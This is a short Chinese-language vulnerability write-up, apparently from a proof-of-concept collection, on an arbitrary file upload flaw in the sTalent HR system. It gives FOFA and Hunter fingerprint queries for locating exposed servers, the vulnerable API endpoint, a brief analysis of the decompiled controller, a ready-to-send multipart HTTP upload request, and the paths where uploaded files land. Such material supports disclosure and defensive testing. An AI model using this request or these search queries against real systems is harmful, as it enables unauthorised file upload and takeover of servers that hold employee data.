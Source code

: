 ```yaml
---
title: 朗新天霁sTalent系统前台任意文件上传
---
```


# 朗新天霁sTalent系统前台任意文件上传

## 漏洞厂商

北京朗新天霁软件技术有限公司

## 厂商官网

http://www.hrsoft.com.cn/  

## 产品

sTalent系统

## 指纹

**FOFA**

```
"/js/Comm/loadingsmall.js" && icon_hash="1772087922"
```

**Hunter**

```
web.body="/js/Comm/loadingsmall.js" && web.icon=="4859e39ae6c0f1f428f2126a6bb32bd9"
```

漏洞地址:`/api/Report/SaveNewReport`

漏洞分析:

在`Web.Api.dll`文件中进行反混淆，得到源代码。程序采用MVC结构

`Web.Api.Controllers.Report`类下的`SaveNewReport`存在文件上传漏洞

由于存在鉴权，需要方法添加注释

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183117550.png)

这里满足，并且在`httpPostedFile`对象后调用了`SaveAs`方法

存储路径在`/report\\newReportFiles`下

## POC

```
POST /api/Report/SaveNewReport?rptId=1 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=qreedyvzmub5afo1nba2i22d
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Length: 177 

------WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Disposition: form-data; name="file";filename="1.txt"
Content-Type: image

111
------WebKitFormBoundaryxzpiOaIdFLPXG0zW—
```

文件路径:

`/report/newReportFiles/1_1.txt`

`report/newReportFiles/{rptId}_filename`

新版本路径在:`/api/Report/Report/SaveNewReport`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183400986.png)
